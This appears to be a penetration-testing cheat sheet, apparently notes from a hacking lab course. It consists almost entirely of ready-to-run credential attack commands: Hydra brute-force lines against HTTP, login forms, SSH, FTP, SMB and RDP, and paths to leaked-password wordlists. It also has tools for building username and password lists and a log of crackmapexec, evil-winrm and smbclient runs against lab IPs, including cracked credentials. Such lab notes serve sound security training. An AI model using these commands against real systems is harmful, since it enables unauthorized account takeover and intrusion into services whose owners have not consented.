 # Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -h` | hydra help |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |

# Wordlists

| **Command**   | **Description**   |
| --------------|-------------------|
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt` | Common Passwords Wordlist |
| `/opt/useful/SecLists/Usernames/Names/names.txt` | Common Names Wordlist |

# Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `cupp -i` | Creating Custom Password Wordlist |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List |
| `ssh b.gates@SERVER_IP -p PORT` | SSH to Server |
| `ftp 127.0.0.1` | FTP to Server |
| `su - user` | Switch to User |

```shell
crackmapexec winrm 10.129.252.193 -u username.list -p password.list
hydra -L username.list  -P password.list -u -f ssh://10.129.252.193:22 -t 4
rdesktop -u john -p november 10.129.252.193
evil-winrm -i 10.129.252.193 -u john -p november
ssh dennis@10.129.252.193 
hydra -L username.list  -P password.list -u -f smb://10.129.252.193 -t 4 
hydra -L username.list  -P password.list -u -f rdp://10.129.252.193 -t 4 
hydra -L username.list  -P password.list -u -f rdp://10.129.252.193
hydra -L username.list  -P password.list -u -f rdp://10.129.252.193 -I
hydra -L username.list  -P password.list -u -f smb://10.129.252.193
crackmapexec smb 10.129.252.193 -u username.list -p password.list
rdesktop -u chris -p 789456123 10.129.252.193
crackmapexec smb 10.129.42.197 -u "john" -p "november" --shares
smbclient -U john \\\\10.129.252.193\\
crackmapexec smb 10.129.42.197 -u "john" -p "november" --shares
crackmapexec smb 10.129.42.197 -u "john" -p "november"
crackmapexec smb 10.129.42.197 -u "cassie" -p "12345678910" --shares
crackmapexec smb 10.129.42.197 -u "chris" -p "789456123" --shares
crackmapexec smb 10.129.252.193 -u "cassie" -p "12345678910" --shares
smbclient -U user \\\\10.129.252.193\\CASSIE
smbclient -U cassie \\\\10.129.252.193\\CASSIE
```